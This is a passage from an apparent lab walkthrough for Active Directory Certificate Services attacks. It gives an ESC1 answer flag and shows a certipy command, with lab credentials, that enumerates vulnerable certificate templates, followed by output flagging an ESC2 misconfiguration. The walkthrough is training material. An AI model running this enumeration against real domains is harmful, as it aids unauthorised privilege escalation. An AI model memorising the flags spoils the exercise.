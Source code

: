 Answer: `HTB{ESC1_4T7ACK}`

# ESC2

## Question 1

### "Abuse the ESC2 misconfiguration and submit Matilda's NT hash."

After spawning the target machine, students need to use `certipy` with the `find` command and the `-vulnerable` option to enumerate the ADCS CA for vulnerabilities, utilizing the credentials `blwasp@lab.local:Password123!`; students will discover that the `ESC2` template suffers from the `ESC2` misconfiguration:

Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip STMIP -vulnerable -stdout
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.228.236 -vulnerable -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 41 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 18 enabled certificate templates
[*] Trying to get CA configuration for 'lab-LAB-DC-CA' via CSRA
[*] Got CA configuration for 'lab-LAB-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : lab-LAB-DC-CA
    DNS Name                            : LAB-DC.lab.local
    Certificate Subject                 : CN=lab-LAB-DC-CA, DC=lab, DC=local
    Certificate Serial Number           : 16BD1CE8853DB8B5488A16757CA7C101
    Certificate Validity Start          : 2022-03-26 00:07:46+00:00
    Certificate Validity End            : 2027-03-26 00:17:46+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Enabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Disabled
<SNIP>
  3
    Template Name                       : ESC2
    Display Name                        : ESC2
    Certificate Authorities             : lab-LAB-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : 16777216
                                          65536
                                          ExportableKey
    Extended Key Usage                  : Any Purpose
```